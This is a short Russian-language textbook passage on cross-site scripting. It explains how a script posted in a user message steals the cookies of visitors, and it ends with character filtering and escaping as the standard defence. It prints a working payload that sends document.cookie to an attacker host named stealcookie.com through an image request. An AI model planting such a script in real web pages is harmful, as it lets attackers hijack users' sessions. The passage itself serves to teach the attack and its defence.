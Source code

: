 Пусть текстовое сообщение, помещенное пользователем, содержит текстовый скрипт, помещающий на странице <<изображение>>, расположенное по некоему адресу.
\begin{verbatim}
<script>
  new Image().src = "http://stealcookie.com?c=" +
    encodeURI(document.cookie);
</script>
\end{verbatim}

Тогда браузер всех пользователей, которым показывается сообщение, при загрузке страницы отправит HTTP GET-запрос на получение файла <<изображения>> по адресу
\begin{center} \begin{verbatim}
http://stealcookie.com?auth=AJHVML43LDSL42SC6DF;
\end{verbatim} \end{center}

В результате злоумышленник получит cookie, используя который он может заходить на веб-сайт под видом пользователя.

Вставка гиперссылок является наиболее частой XSS-атакой. Иногда ссылки кодируются шестнадцатеричными числами вида \texttt{\%NN}, чтобы не вызывать сомнения у пользователя текстом ссылки.



На 2009 г. 80\% обнаруженных уязвимостей веб-сайтов являются XSS-уязвимостями.

Стандартный способ защиты от XSS-атак заключается в фильтрации, замене, экранировании символов и слов введенного текста пользователем: \texttt{<}, \texttt{>}, \texttt{/}, \texttt{\textbackslash}, \texttt{"}, \texttt{'}, \texttt{(}, \texttt{)}, \texttt{script}, \texttt{javascript} и др., а также обработка кодировок символов.
